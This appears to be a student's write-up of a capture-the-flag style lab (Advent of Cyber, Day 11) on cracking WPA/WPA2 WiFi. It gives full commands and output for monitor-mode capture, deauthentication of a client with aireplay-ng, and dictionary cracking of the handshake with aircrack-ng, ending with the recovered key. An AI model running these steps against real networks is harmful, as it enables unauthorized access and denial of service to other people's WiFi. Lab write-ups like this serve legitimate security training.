 # (Day 11) - Advent of Cyber

## WiFi Hacking (WPA/WPA2)

First step in getting a connection to the WiFi is to connect to using ssh using the command:

```
ssh glitch@10.10.149.214 
password: "Password321"
```

We will open this ssh connection on two separate windows, first we will do some simple WiFi enumeration.

#### WiFi Enumeration

To perform the enumeration we will first make use of the following command:

```
iw dev
```

By running this command we receive information about the wireless interface that we are connected to:

```
phy#2
    Interface wlan2
            ifindex 5
            wdev 0x200000001
            addr 02:00:00:00:02:00
            type managed
            channel 6 (2437 MHz), width: 20 MHz (no HT), center1: 2437 MHz
            txpower 20.00 dBm

```

There we are able to obtain the bssid address of our wifi interface which in this case is `02:00:00:00:02:00`. Additionally, we see that the type of our interface is managed, what that means is that our computer is a client to this wifi interface, this type helps connect the device to other wireless networks.

We see the name of the interface is wlan2, we can use this interface to identify nearby networks using the command:

```
sudo iw dev wlan2 scan
```

From this command we receive the output:

```
BSS 02:00:00:00:00:00(on wlan2)
	last seen: 520.388s [boottime]
	TSF: 1730575383370084 usec (20029d, 19:23:03)
	freq: 2437
	beacon interval: 100 TUs
	capability: ESS Privacy ShortSlotTime (0x0411)
	signal: -30.00 dBm
	last seen: 0 ms ago
	Information elements from Probe Response frame:
	SSID: MalwareM_AP
	Supported rates: 1.0* 2.0* 5.5* 11.0* 6.0 9.0 12.0 18.0 
	DS Parameter set: channel 6
	ERP: Barker_Preamble_Mode
	Extended supported rates: 24.0 36.0 48.0 54.0 
	RSN:	 * Version: 1
		 * Group cipher: CCMP
		 * Pairwise ciphers: CCMP
		 * Authentication suites: PSK
		 * Capabilities: 1-PTKSA-RC 1-GTKSA-RC (0x0000)
	Supported operating classes:
		 * current operating class: 81
	Extended capabilities:
		 * Extended Channel Switching
		 * Operating Mode Notification
```

From this we are able to identify the SSID and BSSID of the access point, these are:
`BSSID: 02:00:00:00:00:00` and `SSID: MalwareM_AP`.

We will now switch our interface to monitor mode, what this does is captures all network traffic on a specific channel, we can use this to snoop on a handshaking process to obtain a WPA/WPA2 encrypted password, which we should be able to crack. 

We can do this using the following commands:

```
sudo ip link set dev wlan2 down
sudo iw dev wlan2 set type monitor
sudo ip link set dev wlan2 up
```

To confirm, we can check using the command:

```
sudo iw dev wlan2 info
```

Next we need to make sure we have two terminals running as we will need some commands to be left running in the background. 
Now we will be making use of airodump-ng to capture the traffic especially the 4-way handshake, this will be running in the first terminal:

```
sudo airodump-ng -c 6 --bssid 02:00:00:00:00:00 -w output-file wlan2
```

After running this command for a little while, we will see some client information, under the `STATION` subheading we see the BSSID for the client connected to the access point here:

![[Pasted image 20241220051546.png]]

Now we can commence with sending deauthentication packets to disconnect the client from the access point and thus forcing them to perform the 4-way handshake again which we can capture using command that is currently running in the background.

In our second terminal we will run the following command to send the deauthentication packets:

```
sudo aireplay-ng -0 1 -a 02:00:00:00:00:00 -c 02:00:00:00:01:00 wlan2
```

We see we are successful in two ways, first is seeing the output from the command here:

```
05:03:12  Waiting for beacon frame (BSSID: 02:00:00:00:00:00) on channel 6
05:03:12  Sending 64 directed DeAuth (code 7). STMAC: [02:00:00:00:01:00] [ 0| 0 ACKs]
```

Additionally back in the capture command that was running the background we see that it shows that a WPA handshake was captured:

![[Pasted image 20241220052050.png]]

Now that we have captured the handshake we can stop the capture using `CTRL-C`.
Now because they were using the crackable WPA we can attempt to crack the password used for the WiFi using the following command:

```
sudo aircrack-ng -a 2 -b 02:00:00:00:00:00 -w /home/glitch/rockyou.txt output*cap
```

Then we receive the following password as it successfully cracks the WPA encrypted password we captured, so that now we have the password we should be able to easily connect to the access point:

```
Reading packets, please wait...                                                                                                                                                        
Opening output-file-02.cap                                                                                                                                                             
Read 276 packets.
1 potential targets
Opening output-file-01.cap     

                               Aircrack-ng 1.6 

      [00:00:01] 488/513 keys tested (605.35 k/s) 

      Time left: 0 seconds                                      95.13%

                        KEY FOUND! [ fluffy/champ24 ]


      Master Key     : 44 9B 35 B0 98 49 3D E2 C2 BB 98 AF F6 22 38 64 
                       48 9A DA 09 A5 CC C9 D7 5C 33 DD 5F 3A 4A 43 EB 

      Transient Key  : FB 19 0E EE 86 F0 AF 8A E8 4B 80 B5 8D 5D 63 26 
                       29 1C 0D 74 9E 15 69 C7 70 EB B6 0F A3 AE 3A 8E 
                       47 D8 E3 F5 54 13 68 07 00 17 C2 38 21 D6 61 FD 
                       0F 5A F2 4C 80 21 56 B6 DF 31 36 C6 88 7A 57 A1 

      EAPOL HMAC     : 60 4D 0F CC 05 D5 76 95 76 2F 46 A5 B3 43 EC 49 
```
